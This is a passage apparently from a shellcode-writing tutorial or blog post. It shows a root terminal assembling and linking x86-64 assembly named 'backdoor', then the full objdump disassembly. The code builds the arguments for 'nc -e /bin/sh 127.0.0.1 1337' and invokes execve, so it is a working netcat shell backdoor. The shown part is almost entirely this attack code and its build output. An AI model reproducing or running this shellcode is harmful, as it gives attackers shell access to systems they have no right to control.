 

ip:
	call  continuar
	db "127.0.0.1"
{% endhighlight %}
<pre>
root@ChmoSec:~/Desktop/linux# nasm -f elf64 backdoor.asm
root@ChmoSec:~/Desktop/linux#
root@ChmoSec:~/Desktop/linux#
root@ChmoSec:~/Desktop/linux#
root@ChmoSec:~/Desktop/linux#
root@ChmoSec:~/Desktop/linux# ld backdoor.o -o backdoor
ld: warning: cannot find entry symbol _start; defaulting to 0000000000400080
root@ChmoSec:~/Desktop/linux#
root@ChmoSec:~/Desktop/linux#
root@ChmoSec:~/Desktop/linux#
root@ChmoSec:~/Desktop/linux# objdump -d backdoor

backdoor:     file format elf64-x86-64


Disassembly of section .text:
</pre>


{% highlight asm %}
0000000000400080 <continuar-0x4e>:
  400080:	48 31 d2             	xor    %rdx,%rdx
  400083:	48 bf ff 2f 62 69 6e 	movabs $0x636e2f6e69622fff,%rdi
  40008a:	2f 6e 63
  40008d:	48 c1 ef 08          	shr    $0x8,%rdi
  400091:	57                   	push   %rdi
  400092:	48 89 e7             	mov    %rsp,%rdi
  400095:	48 b9 ff 2f 62 69 6e 	movabs $0x68732f6e69622fff,%rcx
  40009c:	2f 73 68
  40009f:	48 c1 e9 08          	shr    $0x8,%rcx
  4000a3:	51                   	push   %rcx
  4000a4:	48 89 e1             	mov    %rsp,%rcx
  4000a7:	48 bb ff ff ff ff ff 	movabs $0x652dffffffffffff,%rbx
  4000ae:	ff 2d 65
  4000b1:	48 c1 eb 30          	shr    $0x30,%rbx
  4000b5:	53                   	push   %rbx
  4000b6:	48 89 e3             	mov    %rsp,%rbx
  4000b9:	49 ba ff ff ff ff 31 	movabs $0x37333331ffffffff,%r10
  4000c0:	33 33 37
  4000c3:	49 c1 ea 20          	shr    $0x20,%r10
  4000c7:	41 52                	push   %r10
  4000c9:	49 89 e2             	mov    %rsp,%r10
  4000cc:	eb 11                	jmp    4000df <ip>

00000000004000ce <continuar>:
  4000ce:	41 59                	pop    %r9
  4000d0:	52                   	push   %rdx
  4000d1:	51                   	push   %rcx
  4000d2:	53                   	push   %rbx
  4000d3:	41 52                	push   %r10
  4000d5:	41 51                	push   %r9
  4000d7:	57                   	push   %rdi
  4000d8:	48 89 e6             	mov    %rsp,%rsi
  4000db:	b0 3b                	mov    $0x3b,%al
  4000dd:	0f 05                	syscall

00000000004000df <ip>:
  4000df:	e8 ea ff ff ff       	callq  4000ce <continuar>
  4000e4:	31 32                	xor    %esi,(%rdx)
  4000e6:	37                   	(bad)  
  4000e7:	2e 30 2e             	xor    %ch,%cs:(%rsi)